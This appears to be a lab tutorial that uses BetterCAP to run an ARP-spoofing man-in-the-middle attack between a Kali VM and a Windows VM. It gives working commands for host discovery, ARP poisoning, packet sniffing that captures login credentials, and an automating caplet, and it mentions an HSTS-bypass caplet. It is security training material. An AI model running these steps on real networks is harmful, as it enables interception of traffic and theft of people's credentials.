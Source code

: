 # MITM attack using BetterCAP


BetterCAP is a powerful, easily extensible and portable framework written in Go which aims to offer to security researchers, red teamers and reverse engineers an easy to use, all-in-one solution with all the features they might possibly need for performing reconnaissance and attacking WiFi networks, Bluetooth Low Energy devices, wireless HID devices and Ethernet networks.

_Bettercap Official Documentation: https://www.bettercap.org/intro/_

_Official Repo: https://github.com/bettercap/bettercap_

### MITM Attack _(Man-in-the-Middle Attack)_
An MITM is aform of active eavesdropping in which the attacker makes independent connections with the victims and relays messages between them, making them believe that they are talking directly to each other over a private connection, when in fact the entire conversation is controlled by the attacker.

MITM attacks come in many variations.

### Objectives
* Sniff network traffic and perform ARP poisoning.
* Launch Man-in-the-Middle attack.
* Sniff network traffic for passwords.

### Requisites
* Kali Linux virtual machine.
* Any Windows virtual machine (7, 8, 10 or Server).

***

## Install BetterCAP
Launch your Kali Linux, open a new Terminal window and type the following commands:

`apt-get update`<br>
`apt-get install bettercap`

## BetterCAP modules 
To launch the program, type `bettercap` and specify your current network interface: 

`bettercap -iface eth0`

Type **help** to list all modules available:

`help`



The module **events.stream** is **running** by default, this module is enabled by default and is responsible for reporting events (logs, new hosts being found, etc) generated by other modules during the interactive session. Moreover, it can be used to programmatically execute commands when specific events occur.

**To perform a MITM attack we will use these modules below:**

module | about 
-- | --
`net.probe` | When activated, this module will send different types of probe packets to each IP in the current subnet in order for the net.recon module to detect them. [[+]](https://www.bettercap.org/modules/ethernet/net.probe/)
`net.recon` | This module is responsible for periodically reading the system ARP table in order to detect new hosts on the network. [[+]](https://www.bettercap.org/modules/ethernet/net.recon/)
`arp.spoof` | This module keeps spoofing selected hosts on the network using crafted ARP packets in order to perform a MITM attack. [[+]](https://www.bettercap.org/modules/ethernet/spoofers/arp.spoof/)
`net.sniff` | This module is a network packet sniffer and fuzzer supporting both BPF syntax and regular expressions for filtering. It is also able to dissect several major protocols in order to harvest credentials. [[+]](https://www.bettercap.org/modules/ethernet/net.sniff/)

_You can type `help` following with the `module` name to grab some details about:_<br>


## Setting up the Modules to perform an ARP spoofing


1. Start the **prober** module to send different types of probe packets to each IP in the current subnet in order for the **net.recon** module to detect them. _(Note: the prober module may start automatically the net.recon module)._<br><br>
`net.probe on`

```
10.0.2.0/24 > 10.0.2.42  » net.probe on
10.0.2.0/24 > 10.0.2.42  » [11:43:32] [sys.log] [inf] net.probe starting net.recon as a requirement for net.probe
10.0.2.0/24 > 10.0.2.42  » [11:43:32] [endpoint.new] endpoint 10.0.2.3 detected as 07:00:27:11:6c:7d .
10.0.2.0/24 > 10.0.2.42  » [11:43:33] [endpoint.new] endpoint 10.0.2.43 detected as 07:00:27:81:d6:f2 .
```
In my lab, the **10.0.2.43** is my Windows virtual machine, this may differ from your virtual environment.

2. Start network hosts discovery:<br><br>
`net.recon on`

* Note: you can type `net.show` to view all the connected clients viewing the IP addresses and MAC addresses.

3. Set the **arp.spoof** module option **fullduplex** to **true**. When you set to true, both the targets and the gateway will be attacked, otherwise only the target (if the router has ARP spoofing protections in place this will make the attack fail).<br><br>
`set arp.spoof.fullduplex true`

4. Specify the target to spoof. _(A comma separated list of MAC addresses, IP addresses, IP ranges or aliases to spoof)._<br><br>
`set arp.spoof.targets 10.0.2.43`

5. Start ARP spoofer:<br><br>
`arp.spoof on`

```
10.0.2.0/24 > 10.0.2.42  » [12:03:58] [sys.log] [inf] arp.spoof enabling forwarding
10.0.2.0/24 > 10.0.2.42  » [12:03:58] [sys.log] [war] arp.spoof full duplex spoofing enabled, if the router has ARP spoofing mechanisms, the attack will fail.
10.0.2.0/24 > 10.0.2.42  » [12:03:58] [sys.log] [inf] arp.spoof arp spoofer started, probing 1 targets.
```

6. Start the packet sniffer:<br><br>
`net.sniff on`

7. Type `help` to list the modules running:<br><br>


### The ARP spoofing
Bettercap is fooling the **router** and the **target machine(Windows)**, putting the **attacker machine(Kali)** on the middle of the connection.


**On my Windows** machine, I will use the **arp table command** to see what is going on:


As you can see, the Windows machine 'thinks' the **router** MAC address is the same as the **Kali** since the ARP table is spoofed.


### Generate some generic traffic on the Target machine.

1. Log into your Windows virtual machine.
2. Launch the browser and type the URL: http://testhtml5.vulnweb.com
3. Login into this vulnerable-testing-website with sample credentials: **user: admin | password: password**.

### Grabbing and analyzing every request
* Back to your Bettercap on Kali machine and analyze all the requests sent from the Windows.



As you can see, we captured the credentials sent to the website. Anything that the target machine sent and received will be captured by Kali Linux machine.

_**Note**: this technique works on HTTP websites not HTTPS. To perform such action you need to bypass the HSTS (HTTP Strict Transport Security). You can perform this technique using Bettercap and [hstshijack](https://github.com/bettercap/caplets/tree/master/hstshijack) caplet._

## Automate BetterCAP using Caplets
To be more efficient on your work, you can automate the modules setup part by creating a simple **Caplet file**(file.cap) and adding the commands per line.

1. Create the caplet:<br><br>
`touch spoof.cap`

2. Add the commands and save it :<br><br>
`nano spoof.cap`

```sh
net.probe on
set arp.spoof.fullduplex true 
set arp.spoof.targets 10.0.2.5
arp.spoof on
set net.sniff.local true
net.sniff on
```
As you can see is the same commands in order that you used previously.

3. Start the **Bettercap** using the spoof **Caplet** that you created:<br><br>
`bettercap -iface eth0 -caplet spoof.cap`

